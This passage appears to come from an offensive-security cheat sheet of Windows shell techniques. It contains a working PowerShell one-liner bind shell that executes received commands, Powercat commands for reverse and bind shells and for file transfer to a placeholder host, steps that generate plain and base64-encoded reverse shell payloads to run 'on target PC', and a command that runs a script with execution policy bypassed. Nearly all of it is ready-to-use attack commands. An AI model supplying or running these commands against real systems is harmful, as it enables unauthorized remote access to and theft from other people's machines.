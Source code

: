 ```powershell
$client.Close();
$listener.Stop()
```

Same as Oneliner:
```cmd
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<PORT>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();$listener.Stop()"
```

### Powercat
```powershell
# Load powercat script (only in current instance)
PS> . .\powercat.ps1
```
#### Powercat Filetransfer
```powershell
PS> powercat -c <IP> -p <PORT> -i <FILENAME>
```

#### Powercat Reverse Shell
```powershell
PS> powercat -c <IP> -p <PORT> -e cmd.exe
```

#### Powercat Bind Shell
```powershell
PS> powercat -l -p <PORT> -e cmd.exe
```

#### Powercat Standalone Payloads
Generate reverse shell payload with powercat:
```
# Payload generation:
PS> powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1
# Execute on target PC:
PS> .\reversehell.ps1
```
Generate (base64) encoded reverse shell payload with powercat:
```
PS> powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1
# Execute:
PS> powershell.exe -E <INSERT HERE BASE64 CONTENT OF GENERATED FILE>
```



### Execute Powershell file, bypass all policies
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```
